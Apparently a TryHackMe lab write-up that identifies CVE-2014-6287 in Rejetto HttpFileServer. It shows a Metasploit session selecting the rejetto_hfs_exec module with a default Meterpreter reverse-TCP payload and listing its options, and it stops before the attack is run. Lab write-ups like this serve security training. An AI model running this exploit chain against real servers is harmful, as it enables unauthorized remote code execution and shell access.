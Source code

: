 

What is the CVE number to exploit this file server? *2014-6287 * (explot-db  -> https://www.exploit-db.com/exploits/39161)

```use kali tryhackme because doesn't work with my vpn
root@kali:~# msfconsole
                                                  
# cowsay++
 ____________
< metasploit >
 ------------
       \   ,__,
        \  (oo)____
           (__)    )\
              ||--|| *


       =[ metasploit v5.0.101-dev                         ]
+ -- --=[ 2049 exploits - 1108 auxiliary - 344 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: View advanced module options with advanced

msf5 > search rejetto

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution                                   


msf5 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/http/rejetto_hfs_exec) > options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
```